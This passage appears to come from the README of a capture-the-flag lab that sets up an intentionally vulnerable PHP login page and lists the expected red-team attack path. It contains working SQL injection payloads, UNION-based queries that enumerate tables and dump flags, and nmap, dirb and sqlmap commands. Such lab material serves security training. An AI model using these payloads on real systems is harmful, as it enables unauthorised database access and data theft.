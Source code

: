 ```bash
echo "[+] Try SQL injection: admin' OR '1'='1"
```

### Manual Setup Steps
1. Install LAMP stack: `sudo apt-get install apache2 mysql-server php php-mysql`
2. Create MySQL database `ctf_db` with user `ctf_user`
3. Create tables: `users` and `flags`
4. Deploy vulnerable PHP login application
5. Start Apache and MySQL services

## Attack Methodology

### Expected Attack Path
1. **Reconnaissance**: Discover login portal
2. **Application Analysis**: Test login functionality
3. **SQL Injection Discovery**: 
   - Test for injection points
   - Analyze error messages
4. **Database Enumeration**:
   - Extract table names
   - Dump user data
   - Retrieve flags
5. **Flag Extraction**: Use UNION-based injection

### Key Commands Red Team Will Use
```bash
# Web reconnaissance
nmap -sV -p 80 <target_ip>
dirb http://<target_ip>/

# Manual SQL injection testing
# In username field:
admin' OR '1'='1' --
admin' OR '1'='1' #
' UNION SELECT 1,2,3 --

# Database enumeration
' UNION SELECT null,table_name,null FROM information_schema.tables WHERE table_schema='ctf_db' --

# Column enumeration
' UNION SELECT null,column_name,null FROM information_schema.columns WHERE table_name='flags' --

# Flag extraction
' UNION SELECT null,flag_value,null FROM flags --

# Using automated tools
sqlmap -u "http://<target_ip>/login/" --data="username=admin&password=test&submit=Login" --dbs
sqlmap -u "http://<target_ip>/login/" --data="username=admin&password=test&submit=Login" -D ctf_db --tables
sqlmap -u "http://<target_ip>/login/" --data="username=admin&password=test&submit=Login" -D ctf_db -T flags --dump
```
